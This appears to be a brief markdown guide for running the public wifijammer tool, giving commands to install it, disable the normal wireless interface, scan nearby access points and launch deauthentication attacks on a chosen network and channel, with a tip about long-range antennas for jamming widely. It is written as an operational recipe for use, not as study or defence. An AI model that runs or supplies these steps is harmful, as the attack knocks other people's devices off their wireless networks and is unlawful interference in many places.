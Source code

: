 # Source: https://github.com/DanMcInerney/wifijammer
# Works with wireless cards capable of injection (Alfa has some good ones)
# Take care to buy one that works on 2.4 Ghz and 5 Ghz, if you block a lot buy long range antenna
# Examples: https://spoilerfoiler.com/packet-injection-wireless-card-reviews/

## Install python2.7
<code>
sudo apt install python2
</code>
## Clone Repo
<code>
git clone https://github.com/DanMcInerney/wifijammer
cd wifijammer
</code>
## Connect supported wifi device

## Deactivate normal interface

### a) Disable current wifi
Go into Ubuntu WIFI-Settings. Click on the network you are in and uncheck "Connect automatically..."

Take Wifi into Airplane mode

Take Wifi back into normal mode

### b) Take normal iface down
List interfaces with:
<code>
ip a
</code>

Take down normal interface:
<code>
ifconfig wlp0 down
</code>
## List Accesspoints
<code>
sudo iwlist wlx9cefd5fbf646 scanning | egrep 'Cell |Encryption|Quality|Last beacon|ESSID|Channel'
</code>
## Start deauthenticating with

<code>
sudo python2.7 wifijammer -a Address-from-List -c Channel-from-List --world
</code>

## Optionally: Skip an MAC Address from being jammed
Add option:
-d -s MAC-Address
